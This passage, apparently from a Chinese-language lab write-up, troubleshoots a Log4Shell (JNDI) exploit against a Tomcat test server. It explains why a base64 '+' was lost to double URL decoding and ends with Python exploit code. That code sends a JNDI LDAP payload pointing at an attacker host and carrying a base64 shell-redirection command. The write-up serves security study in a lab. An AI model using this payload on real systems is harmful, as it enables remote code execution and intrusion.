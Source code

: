 如上图所示，`base64` 编码后的字符串中含有 `+` 号，而 `+` 号在 `url 编码` 中表示 `空格`

但是 `python requests` 包会自动将 `payload` 自动进行 `url 编码`，如上图所示，`+` 号被成功替换为了 `%2B`

但是，在 **攻击者（Kali-Attacker）** 接收到 **被攻击服务器端（ubuntu-victim）** 的，其 `+` 被替换成了 `空格`——从而导致 `base64 解码失败`

使用 `wireshark` 抓包排查通信过程：

![](.assets_img/README/tomcat_base64_missing.png)

可以看到 **攻击者（Kali-Attacker）** 在接收时，`+` 就已经被错误替换成了 `空格`（错误 `base64` 形式）

故可以初步推断 **被攻击服务器端（ubuntu-victim）** 在接收到 `url` 时，对于 `parameters` 部分后 **进行了 2 次 url 解码** 导致了上述问题

对于上述表现，由于笔者没有查看 **被攻击服务器端（ubuntu-victim）** 对于 `url` 的解析代码，故无法给出准确的 **进行了 2 次 url 解码** 的原因。同时，查看 `jndi:ldap` 对于特殊字符的转义处理，也与 `url 编码` 标准不同——其不会将 `+` 解码为 `空格`（参见 [Special Characters](https://learn.microsoft.com/en-us/archive/technet-wiki/5392.active-directory-ldap-syntax-filters#Special_Characters)）

但是出于解决问题的目的，我们的 `exp` 代码可以进行 `二次 url 编码`，从而解决上述问题。`编码` 部分的代码如下：

```python
params = {
    "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/"
    + urllib.parse.quote_plus(shell_redirection_b64)  # 第一次 url 编码
    + "}",
}


response = requests.get(
    "http://ubuntu-victim.mlab:8080/hello",
    params=params,  # requests 自动会进行第二次 url 编码
    verify=False,
    timeout=10,
)
```
